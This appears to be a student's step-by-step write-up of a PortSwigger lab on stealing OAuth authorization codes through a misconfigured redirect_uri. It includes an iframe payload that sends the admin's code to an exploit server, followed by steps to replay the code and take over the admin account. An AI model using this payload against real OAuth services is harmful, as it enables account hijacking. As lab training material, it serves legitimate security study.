 # OAuth account hijacking via redirect_uri

## This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

## To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

## The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

## You can log in with your own social media account using the following credentials: `wiener:peter`.

### HINT:

```javascript
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

---

step 1
it will use as payload Hint and marked are same
![[lab3_http_histroy_auth.png]]

![[lab3_code_generated.png]]

step 2
send **\_\_\_\_**

step 1 to repeater
302 found
and ready for payload

![[lab3_send_auth_client_id_to_repeater.png]]

step 3
add payload

```javascript
<iframe src="https://oauth-0a32008e030e1bbe82ab688d02d00091.oauth-server.net/auth?client_id=m1rm32vafm9mw7sif225q&redirect_uri=https://exploit-0a92008803f01bcc822269b801a40040.exploit-server.net/oauth-callback&response_type=code&scope=openid%20profile%20email"></iframe>
```

store and view exploit
![[lab3_add_payload_exploit.png]]

click exploit deliver to victim
and click on access log

step 5
go to access log
![[lab3_access_log_code.png]]
`code=qWnjr56jtzVQEsOUA022bkr3ZijMy049QoEC3ksEqKY`

step 6
copy code replace and forward request

![[lab3_intercept_login_replace_code.png]]

step 7
you will get admin panel

![[lab3_admin_panel.png]]

delete carlos account solved lab

![[portswigger_wsa/P03_advanced_topics/P22_OAuth_authentication/images/lab3_solved_lab.png]]
